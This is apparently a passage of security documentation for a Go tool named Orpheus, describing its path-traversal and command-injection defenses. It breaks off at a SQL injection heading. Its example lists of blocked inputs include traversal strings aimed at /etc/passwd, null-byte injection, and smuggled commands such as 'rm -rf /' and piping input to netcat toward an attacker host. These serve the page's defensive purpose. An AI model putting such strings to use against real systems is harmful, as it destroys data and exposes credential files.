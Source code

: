 # Orpheus - Security Documentation

## Security Overview

Orpheus has undergone comprehensive security testing and implements professional-grade security controls.

## Security Posture Summary

**142+ Security Test Cases** - All passing
**Performance Optimized** - ~3.7μs path validation, ~310ns input validation

## Security Controls Implemented

### 1. Path Traversal Attack Prevention

**Threat**: Malicious path traversal attempts to access sensitive files

```go
// Examples of blocked attacks:
"../../../etc/passwd"                    // Unix path traversal
"..\\..\\..\\windows\\system32\\config" // Windows path traversal  
"%2e%2e%2f%2e%2e%2f%2e%2e%2f"          // URL encoded traversal
"file\x00.config"                       // Null byte injection
```

**Implementation**:
- Dangerous pattern detection in `containsSuspiciousPatterns()`
- Path normalization and validation in `ValidatePathFlag()`
- Cross-platform protection (Unix and Windows)
- URL encoding attack prevention

### 2. Command Injection Prevention

**Threat**: Shell command injection through user input

```go
// Examples of blocked injections:
"$(rm -rf /)"           // Command substitution
"`cat /etc/passwd`"     // Backtick execution
"file; rm -rf /"        // Command chaining
"input | nc attacker"   // Pipe injection
"data && malicious"     // Logic chaining
```

**Implementation**:
- Shell metacharacter detection and blocking
- Command substitution pattern matching
- Input sanitization in `ValidateStringFlag()`
- Comprehensive dangerous pattern library

### 3. SQL Injection Protection
